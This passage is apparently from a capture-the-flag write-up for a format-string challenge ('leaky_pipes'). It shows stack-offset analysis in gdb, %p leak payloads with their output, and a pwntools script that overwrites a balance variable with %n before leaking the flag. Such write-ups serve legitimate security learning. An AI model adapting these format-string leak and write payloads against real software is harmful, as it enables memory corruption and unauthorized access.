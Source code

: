 Thus we see that the address of bal is present at the 8th offset. Another way to calculate would be: `(0x7ffcd0ad0150 - 0x7ffcd0ad0140)//8 + 6`, where `0x7ffcd0ad0150` is where address of bal is written, `0x7ffcd0ad0140` is where our input string is stored, all on the stack. 
Once we overwrite we can check the value now stored in `bal` to verify. 
```
gdb-peda$ x/x 0x55efa9bb3010
0x55efa9bb3010 <bal>:	0x00000000000000c8
```

### Obtain the flag:
Now that we have leaked and written to memory, once the check passes, `use_tapes` will be called where our next task is to simply leak the flag. Similar to as shown above we can either use '%s' or a '%p' format specifier to leak the flag string. If we are making use of '%p' to leak, we need to be use of converting from hex to string! To find the offset let's give a string of '%p' and see where the flag could be on the stack! 
`payload = '%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p'`.
Output: 
```
0x7fb885c53a03 (nil) 0x7fb885b79142 0x7ffcd0ad0120 (nil) (nil) 0x55efaad082a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x25 0x7fb885afc013 0x667b6a6674636e69 
```

Thus we can find our input string at the 8th offset or if we look closely, we can find that value leaked at the 16th offset is nothing but our flag! 
Thus to just leak the flag, our payload can be, `payload = %16$p %17$p %18$p %19$p %20$p %21$p`, while running on the server. 

      
## Exploit:
```python=
from pwn import *

context.arch = 'x86_64'
#p = process('./leaky_pipes')

p = remote('gc1.eng.run', 31584)

#gdb.attach(p)

p.recv()
p.sendline('1')
pay = 'a'*8 + ' %18$p'
p.sendline(pay)

p.recvuntil('aaaaaaaa ')
leak = p.recvline()[:-1]

bal = int(leak, 16) + 0x2ab0
info("bal: %s", hex(bal))

p.sendline('1')

pay = '%{}p'.format(200-7)
pay += 'c'*7
pay += '%8$n'
pay += p64(bal)
pay += p64(0)
p.sendline(pay)

p.recv()
p.sendline('2')

p.recv()
```